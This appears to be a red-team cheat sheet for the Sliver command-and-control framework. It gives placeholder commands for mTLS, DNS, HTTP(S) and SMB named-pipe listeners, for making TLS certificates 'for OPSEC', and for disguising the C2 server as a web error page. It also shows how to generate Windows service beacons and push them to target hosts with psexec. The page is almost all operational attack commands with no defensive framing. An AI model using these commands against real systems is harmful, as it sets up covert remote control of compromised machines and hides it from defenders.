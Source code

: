 # 03 - Shell Handler

Search Tag(s): #sliver #command-and-control

## 3.1 - TCP

```
sliver > mtls -L <IP> -l <PORT>
```

## 3.2 - DNS

```
sliver > dns -d <domain>
```

## 3.3 - HTTP(S)

### 3.3.1 - Use custom TLS key and certificate (this is optional but recommended for OPSEC)

Encrypted TLS key and certification.

```
$ openssl req -x509 -newkey rsa:4096 -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email>" -keyout private.key -out certificate.crt -sha256 -days 365
```

Non-encrypted TLS key and certification.

```
$ openssl req -new -x509 -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email>" -keyout private.key -out certificate.crt -days 365 -nodes

sliver > http [-d <domain.com>] -L <IP> -l <PORT>

sliver > https [-d <domain.com>] -L <IP> -l <PORT> -c /path/to/certificate.crt -k /path/to/private.key
```

### 3.3.2 - Disguise the C2 as a website

```
sliver > websites add-content -w -p /index.html -c /home/user/nginx_error.html

sliver > http -w error [-d <domain.com>] -L <IP> -l <PORT>

sliver > websites rm-content -w error -p /index.html
```

## 3.4 - SMB

```
sliver > pivots named-pipe -b <pipe_name>

sliver > profiles new [beacon] [-S <seconds>] [-J <seconds>] -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -l -a x64 -o windows -f service <profile_name>

sliver > psexec -d "<service_description>" -s <service_name> -b C:\path\to\directory -p <profile_name> <target_IP>
```

* You can use a custom exe

```
sliver > generate [beacon] [-S <seconds>] [-J <seconds>] -p namedpiped://<compromised_IP>/./pipe/<name_pipe> -a x64 -o windows -f service -s /path/to/folder

sliver > psexec -d "<service_description>" -s <service_name> -b C:\path\to\directory -c /path/to/shellsvc.exe -p <profile_name> <target_IP>
```